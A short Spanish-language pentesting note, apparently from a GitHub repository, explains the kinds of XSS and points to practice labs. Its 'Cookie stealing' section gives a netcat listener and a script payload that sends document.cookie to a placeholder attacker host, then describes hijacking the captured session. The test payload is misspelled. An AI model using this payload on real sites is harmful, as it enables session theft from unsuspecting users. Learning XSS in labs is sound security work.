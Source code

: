 ## Cross-Site Scripting (XSS)

Una vulnerabilidad XSS (Cross-Site Scripting) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en un sitio web. 
un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página.  
Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:  
* Reflejado (Reflected): Este tipo de XSS se produce cuando los datos proporcionados por el usuario se reflejan en la respuesta HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
* Almacenado (Stored): Este tipo de XSS se produce cuando un atacante es capaz de almacenar código malicioso en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
* DOM-Based: Este tipo de XSS se produce cuando el código malicioso se ejecuta en el navegador del usuario a través del DOM (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

**Proyecto Github con docker vulnerable a XSS** <a href="https://github.com/globocom/secDevLabs">secDevLabs</a>  
**Maquina MyExpense** <a href="https://www.vulnhub.com/entry/myexpense-1,405/">MyExpense machine (Vulnhub)</a>

#### Comprobar si es vulnerable
En un campo de texto, por ejemplo para enviar un post, comentario, etc. escribimos:  
```
<sccript>alert('Prueba XSS')</script>

En ocastiones no es necesario las etiquetas <script>, o incluso es necesario no ponerlas para que funcione
```

### Cookie stealing
Se puede poner netcat a la escucha:  
```
nc -nlvp 80
```

E inyectar el siguiente código:  
```
<script>img = new Image(); img.src = "http://IP_ATACANTE/a.php?"+document.cookie;</script>
```

En la ventana del terminal donde tengamos netcat a la escucha, aparecerá la cookie de sesión cuando algún usuario entre a esa página a consultar los mensajes por ejemplo.  
Para utilizarla:  Ctrl+Shift+I (inspeccionar) -->Application -->Cookies y cambiamos la cookie de sesión por la capturada, luego recargamos y ya estamos dentro.
